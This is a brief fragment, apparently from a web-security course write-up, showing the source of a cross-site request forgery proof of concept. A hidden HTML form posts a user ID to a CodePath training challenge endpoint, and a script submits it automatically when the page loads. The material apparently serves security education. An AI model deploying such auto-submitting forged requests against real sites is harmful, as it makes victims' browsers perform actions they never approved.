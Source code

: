 <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userid" value="6ab3f0630f17f925529768e9aeb40981f6e2651c" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>
